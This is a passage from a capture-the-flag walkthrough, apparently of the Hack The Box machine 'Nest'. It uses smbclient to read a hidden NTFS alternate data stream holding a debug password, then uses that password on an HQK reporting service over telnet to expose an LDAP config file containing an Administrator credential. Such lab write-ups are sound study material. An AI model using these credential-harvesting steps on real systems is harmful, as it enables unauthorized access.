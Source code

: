The main data steam is empty but we find 15 bytes of data in a second data stream. 

By default, when we download a file using smbclient, it gets only the main data stream. Hence, to get the alternate data stream, we need to specify the stream after the filename using `get`.

```
smb: \C.Smith\HQK Reporting\> get DEBUGM~1.TXT:Password:$DATA debug.txt
getting file \C.Smith\HQK Reporting\DEBUGM~1.TXT:Password:$DATA of size 15 as debug.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

Now, when we look into the file, it contains a password we can use on the HQK service.

* HQK DEBUG Password: WBQ201953D8w  

## HQK Enumeration

Our port scan grabbed the HQK banner which includes a list of available commands. We can use them to perform recon.

First, let's connect to the HQK service with telnet.

`telnet 10.10.10.178 4386`

```
HQK Reporting Service V1.2

>DEBUG WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>HELP

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>
```

Using our debug password, we locked a few additional commands. The `SHOWQUERY` command is helpful as it allows us to look inside files.

With it, we can show the contents of this LDAP configuration file we find.

```
QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: ldap
>showquery 2   

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```
